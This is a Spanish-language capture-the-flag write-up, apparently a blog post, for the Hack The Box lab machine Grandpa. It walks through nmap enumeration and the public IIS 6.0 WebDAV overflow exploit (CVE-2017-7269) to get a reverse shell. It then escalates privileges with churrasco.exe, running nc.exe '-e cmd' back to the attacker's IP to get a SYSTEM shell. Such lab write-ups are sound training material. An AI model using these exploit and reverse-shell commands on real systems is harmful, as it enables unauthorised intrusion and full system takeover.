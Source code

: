 ```yaml
---
layout: post
title:  "OSCP Path ~ Grandpa de Hack The Box (Necesario VIP)"
categories: "HTB OSCP-PATH"
description: Writeup de la maquina de HackTheBox llamada GRANDPA siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, IIS-6.0, JuicyPotato, Churrasco, Maquinas Retiradas, Writeup, Hacking
---
```


# Grandpa ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.14       "
``` 
Procedemos a listar la Version y Servicios para los puertos encontrados.
```bash
$" nmap -sC -sV -p80 -oN target 10.10.10.14           "

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: "Microsoft-IIS/6.0"
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Server Date: Fri, 12 Nov 2021 11:34:26 GMT
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Vemos que tiene un servidor IIS-6.0 bastante desactualizado, procedemos a buscar vulnerabilidades acorder para esta version.
```bash
# Buscamos por IIS 6.0 github exploit --> Nos aparece el siguiente exploit 
# cat bof_iis_6.py 
https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell
```

Procedemos a probarlo y vemos que es funcional y nos devuelve una consola interactiva
```bash
# python bof_iis_6.py                              
usage:iis6webdav.py targetip targetport reverseip reverseport

$ python bof_iis_6.py 10.10.10.14 80 10.10.16.7 443
```
Estando a la escucha por el puerto indicado recibimos la conexion entrante.
```bash
# rlwrap nc -vlnp 443                                                                     
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.14] 1030
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>
```
Procedemos a enumerar un poco el systema
```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
```
Vemos que tenemos el `SeImpersonatePrivilege`
Vamos a compartirnos un recurso compartido a nivel de red para pasarnos el `JuicyPotato.exe` para intentar escalar privilegios con el mismo
```bash
$ cd C:\WINDOWS\Temp\Privesc>

$ copy \\10.10.16.7\smbFolder\JuicyPotato.exe JuicyPotato.exe

$ Directory of C:\WINDOWS\Temp\Privesc

11/12/2021  02:30 PM    <DIR>          .
11/12/2021  02:30 PM    <DIR>          ..
09/30/2021  08:59 PM           347,648 JuicyPotato.exe
```
Vale pues procedemos a ejecutarlo.
```bash
JuicyPotato.exe
The image file C:\WINDOWS\Temp\Privesc\JuicyPotato.exe is valid, but is for a machine type other than the current machine.
```
NOS DA ERROR EL JUICYPOTATO .. AHORA QUE??? Procedemos a enumerar el OS que estamos.
```bash
systeminfo

Host Name:                 GRANPA
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 8 Minutes, 54 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 792 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,328 MB
Page File: In Use:         142 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```

Vamos a buscar por `Windows Server 2003 JuicyPotato escalation churrasco.exe`
```bash
https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
```
Nos descargamos el binario y procedemos a pasarlo a la maquina victima. Nos copiamos en el directorio actual el `nc.exe` donde estemos compartiendo el recurso compartido.
```bash
churrasco.exe -d "\\10.10.16.7\smbFolder\nc.exe -e cmd 10.10.16.7 4444"
churrasco.exe -d "\\10.10.16.7\smbFolder\nc.exe -e cmd 10.10.16.7 4444"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 668 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 672 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x734
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found SYSTEM token 0x72c
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```

Recibimos la conexion como Administradores del sistema.
```bash
# rlwrap nc -vlnp 4444
listening on [any] 4444 ...

connect to [10.10.16.7] from (UNKNOWN) [10.10.10.14] 1041
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>
whoami
whoami
nt authority\system
```

Procedemos a sacar la flag `root.txt`
```bash
cd Desktop

dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FDCB-B9EF

 Directory of C:\Documents and Settings\Administrator\Desktop

04/12/2017  04:28 PM    <DIR>          .
04/12/2017  04:28 PM    <DIR>          ..
04/12/2017  04:29 PM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)   1,317,064,704 bytes free

type root.txt
type root.txt
9359e905a2c35fxxxxxxxxxxxxxxxxxxxx
```

Maquina Comprometida   KO H4ck =)
